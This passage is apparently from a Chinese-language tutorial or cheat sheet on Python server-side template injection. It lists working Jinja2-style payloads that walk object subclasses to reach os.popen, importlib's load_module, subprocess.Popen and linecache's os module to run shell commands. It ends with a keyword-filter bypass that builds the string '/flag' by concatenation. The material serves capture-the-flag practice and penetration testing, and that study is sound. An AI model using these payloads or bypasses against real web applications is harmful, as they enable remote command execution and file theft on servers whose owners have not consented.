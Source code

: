 ```python
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('ls /').read()}}
```



**importlib 类执行命令**



python有一个importlib类`<class '_frozen_importlib.BuiltinImporter'>`，可用load_module来导入你需要的模块。

目的就是提供 Python 中 import 语句的实现,以及提供 `__import__` 函数

可以直接利用该类中的`load_module`将os模块导入，从而使用 os 模块执行命令。

首先查找目标Python环境中 **importlib** 类的索引号

```python
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls /").read()}}
```



**subprocess.Popen 类执行命令**

可以用 **subprocess** 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。

subprocess 意在替代其他几个老的模块或者函数，比如：`os.system`、`os.popen` 等函数。



**查找subprocess索引**

```python
{{[].__class__.__base__.__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}  
```



**linecache 函数执行命令**

linecache 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块，所以我们也可以利用这个 linecache 函数去执行命令。

首先查找含有 **linecache** 这个函数的子类的索引号



```python
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__['linecache']['os'].popen('ls /').read()}}
```

#### Bypass

##### 关键字绕过

我们可以利用`+`进行**字符串**拼接，绕过关键字过滤

```python
{{().__class__.__bases__[0].__subclasses__()[40]('/fl'+'ag').read()}}
```

**利用编码绕过**
